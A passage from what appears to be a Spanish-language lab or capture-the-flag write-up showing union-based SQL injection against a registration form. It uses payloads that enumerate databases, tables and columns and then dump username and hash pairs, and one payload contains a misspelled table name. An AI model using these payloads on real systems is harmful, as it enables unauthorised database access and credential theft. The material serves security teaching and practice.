 Intentamos cambiar el pays.

```bash
username=admin&country=Brazil'-- -
username=admin&country=Brazil' union select 1-- -
username=admin&country=Brazil' union select database()-- -
username=admin&country=Brazil' union select version()-- -
```

Aqui la web nos muestra un 1 que significa que es vulnerable a SQLI.

Miramos las bases de datos existentes

```bash
username=admin&country=Brazil' union select schema_name from information_schema.schemata-- -
```

vemos que hay:
- information_schema
- performance_schema
- mysql
- registration

Miramos las tablas existentes en registration

```bash
username=caa&country=Brazil' union select table_name from information_schema.tables where table_schema="registration"-- -
```

Vemos que solo hay una tabla registration.

Enumeramos las columnas

```bash
username=caa&country=Brazil' union select column_name from informaction_shema.columns where table_schema="registration" and table_name="registration"-- -
```

Vemos las columnas:
- username
- userhash
- country
- regtime

Con group_concat enumeramos lo que hay en esta tabla

```bash
username=caa&country=Brazil' union select group_concat(username,0x3a,userhash) from registration-- -
```

Aqui vemos 
-admin:212321297a57a5a743894a0e4a801fc3
-caa:f931822fed1932e33450b91305a0c3d

Pero son usuarios que hemos creado nosotros.

#### Depositar ficheros con SQLI {-}
